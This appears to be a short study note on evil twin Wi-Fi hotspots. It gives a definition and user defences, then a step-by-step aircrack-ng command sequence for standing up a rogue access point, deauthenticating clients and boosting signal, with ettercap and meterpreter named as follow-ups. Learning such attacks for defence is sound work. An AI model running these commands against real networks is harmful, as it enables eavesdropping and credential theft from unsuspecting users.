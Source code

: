 # Evil Twin hotspots

## What ?

Definition from Wikipedia: 
```
An evil twin is a fraudulent Wi-Fi access point that appears to be legitimate but is set up to eavesdrop on wireless communications. The evil twin is the wireless LAN equivalent of the phishing scam.

This type of attack may be used to steal the passwords of unsuspecting users, either by monitoring their connections or by phishing, which involves setting up a fraudulent web site and luring people there.
```

- fraudulent Wi-Fi access point
- wireless LAN equivalent of phishing scam
- can be used to steal information

## What you can do to avoid man-in-the-middle attacks from evil twins



Always ask the establishment what the name of the official hotspot is.  This will prevent you from making incorrect assumptions and choose a malicious hotspot.

If the official hotspot you want to connect to has a key, try intentionally typing in the wrong key.  If the connection accepts the blatantly wrong key, it is most likely an evil twin.

Disable the “auto connect” or “auto join” functions for saved hotspots for all of your wireless devices.  This is good advice period. 

You should also manually disconnect from a hotspot every couple of hours and manually reconnect to your desired hotspot and type in the password to confirm the connection.

## replicating an evil twin hotspot
[source](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-creating-evil-twin-wireless-access-point-eavesdrop-data-0147919/)

- check whether the wireless card is operational
    `iwconfig`
- put wireless card into promiscuous mode
    `airmon-ng start wlan0`
- begin capturing traffic on the wireless card
    `airodump-ng mon0`
- Create a new AP  
    `airbase-ng -a BSSID --essid "ESSID" -c CH mon0`
- Deauthentication/ bumping the suspect off
    `aireplay-ng --deauth 0 -a BSSID`
- Boost the network power  
    `iwconfig wlan0 txpower 27`
- Following up on the running evil twin
    - ettercap
    - inject meterpreter
    - ...
